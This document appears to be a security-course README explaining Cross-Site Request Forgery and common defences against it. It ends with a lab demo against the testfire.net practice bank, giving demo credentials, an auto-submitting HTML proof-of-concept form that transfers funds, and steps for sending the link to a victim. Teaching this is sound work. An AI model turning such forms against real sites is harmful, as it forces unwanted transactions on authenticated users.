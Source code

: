  
[![made-with-html](https://img.shields.io/badge/Made%20with-HTML-1f425f.svg)](https://html.com/)&nbsp&nbsp[![instructure-dr.404](https://img.shields.io/badge/Instructor-Dr.404-brightgreen)](https://www.facebook.com/htunaungkyawMPC)



 # Cross-Site Request Forgery (CSRF)

 - an attack that forces an end user `to execute unwanted actions` on a web application in which they’re `currently authenticated`. 

 - With a little help of `social engineering` (such as sending a link via email or chat), 

 - If the victim is a normal user, a successful CSRF attack can force the user to perform state changing requests like `transferring funds`, c`hanging their password`, and so forth. If the victim is an administrative account, CSRF can compromise the entire web application.

 [Reference-OWASP](https://owasp.org/www-community/attacks/csrf)

![CSRF](../photo/csrf.png)



# Common defenses against CSRF 

[Reference_portswigger.net](https://portswigger.net/web-security/csrf)

 The most common defenses are as follows:

- CSRF tokens - A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client. When attempting to perform a sensitive action, such as submitting a form, the client must include the correct CSRF token in the request. This makes it very difficult for an attacker to construct a valid request on behalf of the victim.

    
- Referer-based validation - Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. This is generally less effective than CSRF token validation.

![CSRF](../photo/anti_csrf.png)


# Lab Demo

## Lab Websit

`http://testfire.net/login.jsp`

## Lab Credentials

```
username = jsmith   
password = demo1234

```

## Example CSRF POC Form

```html
<h1>CSRF</h1>
<form id="form1" action="http://testfire.net/bank/doTransfer" method="POST">
    <input name="fromAccount" value="800002" />
    <input name="toAccount" value="4539082039396288" />
    <input name="transferAmount" value="3333" />
</form>
<script type="text/javascript">
document.getElementById('form1').submit();
</script>

```

## Labs Steps

1. Construct `CSRF Form` manaully or using burp suite  `engagement tools (csrf PoC`.

2. Run web server and send the link to victim

3. Exploit